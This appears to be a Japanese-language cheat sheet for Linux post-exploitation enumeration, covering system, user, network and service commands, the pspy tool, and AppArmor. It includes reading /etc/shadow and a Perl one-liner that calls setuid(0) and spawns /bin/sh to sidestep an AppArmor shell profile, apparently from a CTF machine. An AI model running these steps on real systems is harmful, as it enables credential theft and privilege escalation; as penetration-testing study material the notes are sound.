 # 列挙

## システム

```shell
# ディストリビューション
ls /etc/*-release
hostname
hostnamectl
lscpu

cat /etc/passwd
cat /etc/group
cat /etc/shadow

ls -lh /var/mail/

ls -lh /usr/bin/
ls -lh /sbin/

# インストールされている全てのパッケージ
rpm -qa
dpkg -l
```

## ユーザー

```shell
# ログインしているユーザー
who
# 誰がログインしていて何をしているか
w
# 最後にログインしたユーザー
last

# ユーザーとグループID
id

sudo -l
```

## ネットワーク

```shell
# IPアドレスと短縮形
ip address show
ip a s

# DNS
cat /etc/resolv.conf

# ネットワーク接続、ルーティング
# -a	リスニングソケットと非リスニングソケットの両方を表示
# -l	リスニングソケットのみ表示
# -n	IPアドレスとポート番号を解決する代わりに数値出力を表示
# -t	TCP
# -u	UDPI
# -x    unix
# -p	(要sudo)ソケットが属するプログラムのPIDと名前を表示
sudo netstat -plt
sudo netstat -atupn

ss -tulnp

# ネットワーク接続
sudo lsof -i
# 25ポート関連のみ
sudo lsof -i :25
# 特定のディレクトリ下で開かれているファイル
sudo lsof +D /path/to/directory
```

## サービス

```shell
# 実行中の全てのプロセス
ps -ef

# ASCIIアートでツリー構造を表現
ps axf

# リソース使用率なども含まれる
ps aux

# サービス一覧
systemctl list-units --type=service --state=running

# 状態
systemctl status <service-name>

# 実行ファイルの情報なども確認できる
systemctl cat <service-name>

# ログ
sudo journalctl -f -u <service-name>
```

### pspy

非特権ユーザーでもある程度、誰が何を実行しているか分かるツール。  
https://github.com/DominicBreuker/pspy

## AppArmor

パーミッションがあるはずなのにパーミッション不足でエラーになる場合、AppArmor で制限されているかもしれない。

```shell
# 現在のシェルの種類確認
think@publisher:/var/tmp$ echo $0
-ash

# シェル用のルール確認
think@publisher:/var/tmp$ cat /etc/apparmor.d/usr.sbin.ash
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
```

下記の形で制限を回避できる可能性がある。

```shell
echo  '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /var/tmp/test.pl
chmod +x /var/tmp/test.pl
/var/tmp/test.pl
```

また、書き込み権限があるが上書きエラーになる場合、追記のみ許可されている場合がある。  
lsattr で確認可能。

```shell
# a が表示されたら追記モード
lsattr <file>
-----a--------e----- <file>
```
